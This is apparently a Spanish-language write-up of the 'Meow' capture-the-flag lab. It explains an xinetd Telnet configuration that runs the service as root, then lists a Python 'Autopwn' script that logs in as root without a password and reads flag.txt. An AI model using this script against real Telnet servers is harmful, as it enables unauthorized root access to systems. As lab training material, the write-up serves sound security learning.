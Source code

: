 - `# default on`: Este comentario indica que el servicio Telnet está habilitado de manera predeterminada.
- `# description: The telnet server serves telnet sessions; it uses...`: Este comentario proporciona una descripción del servicio Telnet.
- `service telnet`: Esto indica que se está configurando el servicio Telnet.
- `disable = no`: Esta línea indica que el servicio Telnet está habilitado (`no` significa deshabilitado).
- `flags = REUSE`: Establece la bandera `REUSE`, que permite al servicio utilizar la misma dirección y puerto incluso si el servicio se ha detenido recientemente. Esto puede ayudar a mejorar la eficiencia en ciertas situaciones.
- `socket_type = stream`: Especifica que el tipo de socket es `stream`, lo que significa que el servicio utiliza conexiones TCP.
- `wait = no`: Indica que `xinetd` no debe esperar a que el servicio Telnet se complete antes de aceptar nuevas conexiones. Esto significa que el servicio puede manejar múltiples conexiones simultáneamente.
- `user = root`: Especifica el usuario bajo el cual se ejecutará el servicio Telnet. En este caso, se ejecutará como el usuario root.
- `server = /usr/sbin/in.telnetd`: Especifica la ubicación del programa `in.telnetd`, que es el servidor Telnet que maneja las conexiones entrantes.
- `log_on_failure += USERID`: Indica que se debe registrar la información del usuario (`USERID`) en caso de fallo de inicio de sesión.
## Autopwn

```python
#!/usr/bin/env python3

import argparse
import asyncio, telnetlib3
from termcolor import colored


def get_args():

    parser = argparse.ArgumentParser(prog='Meow Autopwn')
    parser.add_argument('-t', '--target', help='Dirección IP del servidor', dest='target')
    parser.add_argument('-p', '--port', help='Puerto del servicio en el que está corriendo el servicio Telnet', type=int, dest='port')

    return parser.parse_args()


async def write_to_server(wr, txt):
    wr.write(txt)
    await wr.drain()


async def meow(target, port):
    
    reader, writer = await telnetlib3.open_connection(target, port)

    banner = await reader.readuntil(b'login: ')
    print(banner.decode('utf-8'), end='')

    await write_to_server(writer, 'root\n')

    shell = await reader.readuntil(b"#")
    print(f'\n', shell.decode('utf-8'))

    await write_to_server(writer, 'cat flag.txt\n')
    flag = await reader.readuntil(b"#")
    
    flag = flag.decode('utf-8').split('\r\n')[1]
```